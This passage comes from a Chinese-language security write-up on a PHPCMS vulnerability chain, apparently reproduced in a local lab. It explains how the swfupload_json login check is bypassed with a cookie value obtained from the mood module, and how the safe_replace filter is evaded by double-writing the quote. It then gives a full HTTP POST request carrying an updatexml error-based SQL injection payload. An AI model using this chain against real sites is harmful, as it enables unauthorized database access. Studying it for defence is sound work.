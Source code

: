 但是在`__construct`函数中要求当前处于已登录状态,但是其判断方式仅对`$this->userid`判断是否为空,而`$this->userid`来源于`$_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'], 'DECODE'))`

当`$_SESSION['userid']`为空时,即可调用`param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'], 'DECODE')`

当`_userid`的cookie为空时,即可将`$this->userid`设置为`sys_auth($_POST['userid_flash'], 'DECODE')`的结果,保证`$_POST['userid_flash']`是一个可以正常解密的字符串即可绕过登录检查,从而调用`swfupload_json`

在`phpcms/modules/mood/index.php`中的`post`函数中,构造参数即可调用`param::set_cookie('mood_id', $cookies.','.$mood_id);`从而获得一个可以正常解密的字符串

`http://192.168.241.130:8080/index.php?m=mood&c=index&a=post&id=123&k=1`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203121949535.png)

`Set-Cookie: gYvca_mood_id=e5a3qbTrR_cuRH_bUNu77w77DaTEdUSfzpOJXmUqs-7F`

注意到存在`safe_replace`,可以使用双写绕过`%\27`->`%27`

```php
function safe_replace($string)
{
    $string = str_replace('%20', '', $string);
    $string = str_replace('%27', '', $string);
    $string = str_replace('%2527', '', $string);
    $string = str_replace('*', '', $string);
    $string = str_replace('"', '&quot;', $string);
    $string = str_replace("'", '', $string);
    $string = str_replace('"', '', $string);
    $string = str_replace(';', '', $string);
    $string = str_replace('<', '&lt;', $string);
    $string = str_replace('>', '&gt;', $string);
    $string = str_replace("{", '', $string);
    $string = str_replace('}', '', $string);
    $string = str_replace('\\', '', $string);
    return $string;
}
```

```
POST /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=...%26id=gululingbo%\27+and+updatexml(1,concat(0x7e,(user()),0x7e),1)%23%26m=1%26modelid=1%26catid=123%26f=123%26... HTTP/1.1
Host: 192.168.241.130:8080
Content-Length: 57
Pragma: no-cache
Cache-Control: no-cache
Origin: http://192.168.241.130:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.241.130:8080/index.php?m=attachment&c=attachments&a=swfupload_json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=q129buklbv2pojhu3fkfm4j0r4; XDEBUG_SESSION=XDEBUG_ECLIPSE; gYvca_att_json=asdf
Connection: close

userid_flash=e5a3qbTrR_cuRH_bUNu77w77DaTEdUSfzpOJXmUqs-7F
```
